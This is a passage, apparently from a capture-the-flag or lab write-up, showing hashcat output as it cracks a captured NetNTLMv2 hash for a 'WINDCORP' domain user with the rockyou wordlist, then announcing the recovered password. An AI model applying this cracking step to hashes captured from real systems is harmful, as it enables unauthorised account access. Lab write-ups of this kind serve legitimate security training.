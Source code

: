 ```
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.                                                                        
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

BUSE::WINDCORP:4ce69722d0715c4e:d182f429d3f8e1899fe6152a31f04df0:01010000000000004b749f876555d6014350ab75446d0e3a000000000200060053004d0042000100160053004d0042002d0054004f004f004c004b00490054000400120073006d0062002e006c006f00630061006c000300280073006500720076006500720032003000300033002e0073006d0062002e006c006f00630061006c000500120073006d0062002e006c006f00630061006c00080030003000000000000000010000000020000073b171a2270f43dc6457d587e7ed686ba5cb926d2746466aa21e11ff6a99e5a00a00100000000000000000000000000000000000090000000000000000000000:<PASSWORD>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: BUSE::WINDCORP:4ce69722d0715c4e:d182f429d3f8e1899fe...000000
Time.Started.....: Sun Feb 21 23:42:21 2021 (4 secs)
Time.Estimated...: Sun Feb 21 23:42:25 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   846.1 kH/s (3.99ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2961408/14344385 (20.65%)
Rejected.........: 0/2961408 (0.00%)
Restore.Point....: 2957312/14344385 (20.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: v10014318 -> utrox11

Started: Sun Feb 21 23:41:48 2021
Stopped: Sun Feb 21 23:42:26 2021
```

We get the password!
